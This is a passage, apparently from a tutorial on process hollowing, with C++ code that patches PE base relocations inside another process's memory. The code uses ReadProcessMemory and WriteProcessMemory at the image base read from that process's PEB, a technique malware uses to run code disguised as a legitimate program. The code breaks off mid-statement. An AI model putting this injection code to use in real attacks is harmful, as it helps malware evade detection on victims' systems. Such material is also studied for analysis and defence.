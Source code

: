 To calculate the number of entries in a block, the size of BASE_RELOCATION_BLOCK is subtracted from BlockSize and the difference is divided by the size of BASE_RELOCATION_ENTRY. The macro below assists in these calculations.

```cpp
#define CountRelocationEntries(dwBlockSize)           \
      (dwBlockSize -                                  \
      sizeof(BASE_RELOCATION_BLOCK)) /                \
      sizeof(BASE_RELOCATION_ENTRY)
 
Putting this together we can iterate through each block and its respective entries, patching the addresses of the image along the way.

DWORD dwRelocAddr = pSourceImage->Sections[x].PointerToRawData;
DWORD dwOffset = 0;
 
IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
      OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
while (dwOffset < relocData.Size)
{
      PBASE_RELOCATION_BLOCK pBlockheader =
            (PBASE_RELOCATION_BLOCK)&pBuffer[dwRelocAddr + dwOffset];
 
      dwOffset += sizeof(BASE_RELOCATION_BLOCK);
 
      DWORD dwEntryCount = CountRelocationEntries(pBlockheader->BlockSize);
 
      PBASE_RELOCATION_ENTRY pBlocks =
            (PBASE_RELOCATION_ENTRY)&pBuffer[dwRelocAddr + dwOffset];
 
      for (DWORD y = 0; y <  dwEntryCount; y++)
      {
            dwOffset += sizeof(BASE_RELOCATION_ENTRY);
 
            if (pBlocks[y].Type == 0)
                  continue;
 
            DWORD dwFieldAddress =
                  pBlockheader->PageAddress + pBlocks[y].Offset;
 
            DWORD dwBuffer = 0;
           
            ReadProcessMemory
            (
                  pProcessInfo->hProcess,
                  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                  &dwBuffer,
                  sizeof(DWORD),
                  0
            );
 
            dwBuffer += dwDelta;
 
            BOOL bSuccess = WriteProcessMemory
            (
                  pProcessInfo->hProcess,
                  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                  &dwBuffer,
                  sizeof(DWORD),
                  0
            );
 
            if (!bSuccess)
```